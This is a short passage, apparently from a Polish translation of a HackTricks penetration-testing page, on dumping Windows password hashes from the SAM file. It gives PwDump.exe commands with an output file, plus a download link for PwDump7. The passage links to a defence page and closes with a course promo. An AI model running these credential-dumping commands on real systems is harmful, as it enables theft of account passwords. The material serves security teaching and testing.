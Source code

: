 Wyodrębnij poświadczenia z pliku SAM
```
You can find this binary inside Kali, just do: locate pwdump.exe
PwDump.exe -o outpwdump -x 127.0.0.1
type outpwdump
```
### PwDump7

Pobierz go z: [http://www.tarasco.org/security/pwdump\_7](http://www.tarasco.org/security/pwdump\_7) i po prostu **uruchom**, a hasła zostaną wyodrębnione.

## Obrona

[**Dowiedz się więcej o ochronie poświadczeń tutaj.**](credentials-protections.md)

<details><summary><strong>Naucz się hackowania AWS od zera do bohatera z</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary></details>
